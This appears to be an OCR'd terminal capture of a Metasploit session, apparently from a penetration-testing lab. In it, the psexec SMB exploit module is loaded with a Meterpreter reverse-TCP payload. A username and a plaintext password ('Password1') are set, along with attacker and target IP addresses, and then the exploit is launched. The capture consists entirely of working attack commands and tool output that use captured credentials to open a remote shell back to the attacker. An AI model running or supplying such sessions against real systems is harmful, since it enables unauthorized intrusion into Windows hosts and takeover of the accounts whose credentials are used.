 ```
+ -- --=[ 2214 exploits - 1171 auxiliary - 396 post       ]
+ -- --=[ 616 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: To save all commands executed since start up 
to a file, use the makerc command

msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), see https://githu
                                                    b.com/rapid7/metasploit-framework/wik
                                                    i/Using-Metasploit
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on
                                                    target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authent
                                                    ication
   SMBPass                                no        The password for the specified userna
                                                    me
   SMBSHARE                               no        The share to connect to, can be an ad
                                                    min share (ADMIN$,C$,...) or a normal
                                                     read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, proces
                                        s, none)
   LHOST     192.168.13.129   yes       The listen address (an interface may be specified
                                        )
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/smb/psexec) > set SMBUser ballen
SMBUser => ballen
msf6 exploit(windows/smb/psexec) > set SMBPass Password1
SMBPass => Password1
msf6 exploit(windows/smb/psexec) > set lhost 10.11.81.220
lhost => 10.11.81.220
msf6 exploit(windows/smb/psexec) > set rhosts 10.10.144.209
rhosts => 10.10.144.209
msf6 exploit(windows/smb/psexec) > set lport 4444
lport => 4444
msf6 exploit(windows/smb/psexec) > exploit

```